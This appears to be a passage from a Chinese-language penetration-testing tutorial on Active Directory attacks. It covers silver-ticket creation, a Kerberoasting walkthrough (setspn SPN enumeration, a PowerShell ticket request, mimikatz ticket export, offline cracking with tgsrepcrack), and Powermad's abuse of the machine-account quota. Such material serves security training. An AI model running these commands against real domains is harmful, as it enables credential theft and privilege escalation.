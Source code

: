 ![image-20191014124156152](https://p2.ssl.qhimg.com/t01413b1909ef9d4ce8.png)

制作白银票据

![image-20191014124606728](https://p1.ssl.qhimg.com/t015c9009579c1d7b29.png)

在使用白银票据进行 传递的时候会出现KRB_AP_ERR_MODIFIED(Message stream modified)，尚未解决

![image-20191014170509628](https://p0.ssl.qhimg.com/t019a3a9ea086b7bd11.png)

### 4. [kerberoast](https://github.com/nidem/kerberoast)

Kerberoast是用于攻击MS Kerberos实现的一系列工具

用系统内置的工具setspn提取出所有的spn

```
> setspn  -Q */*
```

![image-20191108125229577](https://p0.ssl.qhimg.com/t01f003f5f857bdd2cb.png)

请求票据

```
> Add-Type -AssemblyName System.IdentityModel  
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.jmu.com:1433"  
```

![image-20191108125257608](https://p0.ssl.qhimg.com/t01c1f0c07ad7c7bfaf.png)

从 Mimikatz 里面提取票据

```
mimikatz # kerberos::list /export
```

![image-20191108125415725](https://p4.ssl.qhimg.com/t01b21ff179db9489ca.png)

使用 tgsrepcrack 爆破票据

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

![image-20191012125853360](https://p5.ssl.qhimg.com/t011de1f3aeba729ddc.png)

### 5. [Powermad]( https://github.com/Kevin-Robertson/Powermad )

默认的Active Directory ms-DS-MachineAccountQuota属性设置允许所有域用户向一个域中最多添加10个计算机帐户。

![image-20191108112020351](https://p4.ssl.qhimg.com/t01cb55e59c44f6a4ba.png)

Powermad包括一组用于利用ms-DS-MachineAccountQuota的功能，而无需将实际系统附加到AD。
